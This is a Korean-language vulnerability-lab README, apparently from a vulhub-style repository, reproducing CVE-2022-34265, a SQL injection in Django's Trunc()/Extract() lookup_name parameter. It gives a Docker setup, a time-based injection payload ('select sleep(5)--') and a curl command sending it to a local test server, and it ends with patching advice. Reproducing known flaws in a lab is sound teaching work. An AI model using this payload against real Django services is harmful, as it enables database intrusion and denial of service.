

# CVE-2022-34265

> [장정안\_5308(jeongahn)](https://github.com/jeongahn)

## 요약

Django version이 3.2에서 3.2.14 사이와 4.0에서 4.0.6 사이에 문제가 발견되었다.
CVE-2022-34265은 Django ORM의 데이터베이스 쿼리를 통한 취약점이다. 이 취약점은 사용자로부터의 입력을 쿼리 필터링에 직접 사용할 때 발생한다. 이러한 사용자 입력은 보안을 위협할 수 있는 SQL 삽입 공격을 유발할 수 있다.
즉, 신뢰할 수 없는 데이터가 kind/lookup_name 값으로 사용되면 Trun() 및 Extract() 데이터베이스 함수가 SQL 주입 대상이 된다.

## 환경 구성 및 실행

**MAC m1에서 테스팅 환경 구축했습니다.**

- `git clone https://github.com/jeongahn/kr-vulhub/Django_Sql_Injection/CVE-2022-34265` 실행
- `cd CVE-2022-34265`
- `make up`으로 실행해 테스트 환경을 실행할 수 있다.

#### 삭제 시

- `make down`

## 페이로드

- `YEAR FROM start_time)) ; select sleep(5)--`

```
curl "http://127.0.0.1:8000/extract/?lookup_name=YEAR%20FROM%20start_time))%20%3Bselect%20sleep(5)--"
```

#### Payload:

- `YEAR FROM start_time)) ;select sleep(5)--`
- 이 쿼리는 start_time 필드의 연도를 추출하는 것처럼 보이며, 그 뒤에 ;를 사용하여 새로운 쿼리를 시작한다. 그리고 select sleep(5)를 사용하여 5초간의 딜레이를 발생시킨다.
- 이를 통해 공격자는 서비스의 응답 시간을 지연시켜 서비스의 가용성을 저하시킬 수 있다.

## 결과


5초 뒤에 응답이 오는 것을 확인

## 정리

이 취약점은 이제 Injection으로 서비스 응답 시간을 지연시킬 수 있고, 데이터베이스의 문서를 조작하는등의 공격이 가능한 취약점이며 사용자 입력을 검증하고 파라미터화된 쿼리를 사용해 패치를 하는 것이 중요하다.

## Reference

- https://github.com/aeyesec/CVE-2022-34265
- https://github.com/ZhaoQi99/CVE-2022-34265?tab=readme-ov-file
